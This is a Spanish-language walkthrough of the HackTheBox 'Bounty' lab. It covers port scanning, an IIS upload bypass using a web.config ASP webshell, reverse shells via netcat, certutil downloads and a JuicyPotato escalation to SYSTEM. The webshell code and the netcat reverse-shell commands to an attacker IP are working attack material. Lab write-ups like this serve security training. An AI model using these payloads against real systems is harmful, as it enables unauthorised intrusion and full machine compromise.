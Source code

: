 ```yaml
---
title: HackTheBox - Bounty
author: cotes
date: 2023-09-12 17:51:00 +0800
categories: [Writeup, HackTheBox, Easy]
tags: [Windows, 'File Upload', 'SeImpersonatePrivilege (Juicy Potato)']
math: true
mermaid: true
image:
  path: /assets/images/HTB/Easy/Bounty/logo.png
  lqip: data:image/webp;base64,UklGRpoAAABXRUJQVlA4WAoAAAAQAAAADwAABwAAQUxQSDIAAAARL0AmbZurmr57yyIiqE8oiG0bejIYEQTgqiDA9vqnsUSI6H+oAERp2HZ65qP/VIAWAFZQOCBCAAAA8AEAnQEqEAAIAAVAfCWkAALp8sF8rgRgAP7o9FDvMCkMde9PK7euH5M1m6VWoDXf2FkP3BqV0ZYbO6NA/VFIAAAA
  alt: Bounty Machine Logo
---
```


Máquina Windows de nivel **Easy** de HackThBox.

Técnicas usadas: **File Upload, SeImpersonatePrivilege (Juicy Potato)**

### Fase de Reconocimiento 🧣

a. Enumeramos los puertos que están abiertos.

* **`nmap -p- -sS -Pn -n <IP> -oG puertos`**

    ![](/assets/images/HTB/Easy/Bounty/01-ports.png)

b. Vemos las versiones de los servicios que se están ejecutando en los puertos.

* **`nmap -p21,80 -sCV <IP> -oN versiones`**

    ![](/assets/images/HTB/Easy/Bounty/02-versions.png)

> Internet Information Services (IIS) es un conjunto de servicios para Windows. Las extensiones más 'conocidas' son **.aspx** y **.aspx**
{: .prompt-tip }

c. Enumeramos por fichero con las extensiones más conocidas

```bash
❯ gobuster dir -w /usr/share/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt -u http://10.10.10.93/ -t 100 -x aspx,asp --add-slash

/transfer.aspx        (Status: 200) [Size: 941]
/uploadedfiles/       (Status: 403) [Size: 1233] -> Directorio en el que se guardarán los archivos
```


![](/assets/images/HTB/Easy/Bounty/03-file.png)

* En este caso no podemos subir una **webshell** en formato '.asp' y '.aspx' por lo que buscamos una forma de bypassear esto [Bypass File Upload](https://soroush.me/blog/2014/07/upload-a-web-config-file-for-fun-profit/)

d. Podemos ejecutar comandos 'camuflando' el script en un archivo **web.config**

```xml
<?xml version="1.0" encoding="UTF-8"?>
<configuration>
   <system.webServer>
      <handlers accessPolicy="Read, Script, Write">
         <add name="web_config" path="*.config" verb="*" modules="IsapiModule" scriptProcessor="%windir%\system32\inetsrv\asp.dll" resourceType="Unspecified" requireAccess="Write" preCondition="bitness64" />         
      </handlers>
      <security>
         <requestFiltering>
            <fileExtensions>
               <remove fileExtension=".config" />
            </fileExtensions>
            <hiddenSegments>
               <remove segment="web.config" />
            </hiddenSegments>
         </requestFiltering>
      </security>
   </system.webServer>
</configuration>
<%
set xmldoc= Server.CreateObject("MSXML2.DOMDocument")
xml="<?xml version=""1.0""?><root >cmd /c ipconfig</root>"
xmldoc.loadxml(xml)
Set xsldoc = Server.CreateObject("MSXML2.DOMDocument")
xlst="<?xml version='1.0'?><xsl:stylesheet version=""1.0"" xmlns:xsl=""http://www.w3.org/1999/XSL/Transform"" xmlns:msxsl=""urn:schemas-microsoft-com:xslt"" xmlns:zcg=""zcgonvh""><msxsl:script language=""JScript"" implements-prefix=""zcg""> function xml(x) {var a=new ActiveXObject('wscript.shell'); var exec=a.Exec(x);return exec.StdOut.ReadAll()+exec.StdErr.ReadAll(); }</msxsl:script><xsl:template match=""/root""> <xsl:value-of select=""zcg:xml(string(.))""/></xsl:template></xsl:stylesheet>"
xsldoc.loadxml(xlst)
response.write "<pre><xmp>" & xmldoc.TransformNode(xsldoc)& "</xmp></pre>"
%>
```

* Subimos este fichero y veremos el output del comando **ipconfig**

    ![](/assets/images/HTB/Easy/Bounty/04-command.png)

e. Ahora nos entablaremos una reverse shell

* Primero, descargamos [nc](https://eternallybored.org/misc/netcat/) y montamos un servidor smb con impacket

    ```bash
    ❯ impacket-smbserver Share ./ -smb2support
    ```

* Ahora, el comando que ejecutaremos es `\\10.10.14.18\Share\nc.exe -e cmd 10.10.14.18 443`, subimos el fichero web.config y recibiremos una **reverse shell**

    ```bash
    ❯ nc -lvnp 443
    connect to [10.10.14.18] from (UNKNOWN) [10.10.10.93] 49169
    Microsoft Windows [Version 6.1.7600]
    Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

    c:\windows\system32\inetsrv>
    ```

### Escalada de Privilegios 💹

a. Vemos nuestro privilegios

```cmd
c:\windows\system32\inetsrv>whoami /priv

PRIVILEGES INFORMATION
----------------------
Privilege Name                Description                               State   
============================= ========================================= ========
SeImpersonatePrivilege        Impersonate a client after authentication Enabled
```

> El tener este privilegio habilitado para un usuario lo hace vulnerable a una escalada de privilegios con **Juicy Potato**
{: .prompt-info }

b. Para esto necesitamos los ficheros [Juicy Potato](https://github.com/ohpe/juicy-potato/releases/tag/v0.1) y [nc64](https://eternallybored.org/misc/netcat/) y los transferimos a la máquina víctima

```bash
❯ python -m http.server 80
------------------------------------------------------------------------------------
C:\Users\merlin\Documents>certutil -f -urlcache -split "http://<tun0 IP>/JuicyPotato.exe" ".\JuicyPotato.exe"
C:\Users\merlin\Documents>certutil -f -urlcache -split "http://<tun0 IP>/nc64.exe" ".\nc64.exe"
```

c. Ahora, nos entablamos una reverse shell 

```cmd
C:\Users\merlin\Documents>.\JuicyPotato.exe -t * -l 4445 -p "C:\Windows\System32\cmd.exe" -a "/c C:\Users\merlin\Documents\nc64.exe -e cmd <tun0 IP> 4444"
----------------------------------------------------------------------------------------------------------------------------------------------------------
❯ nc -lvnp 4444
Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system
```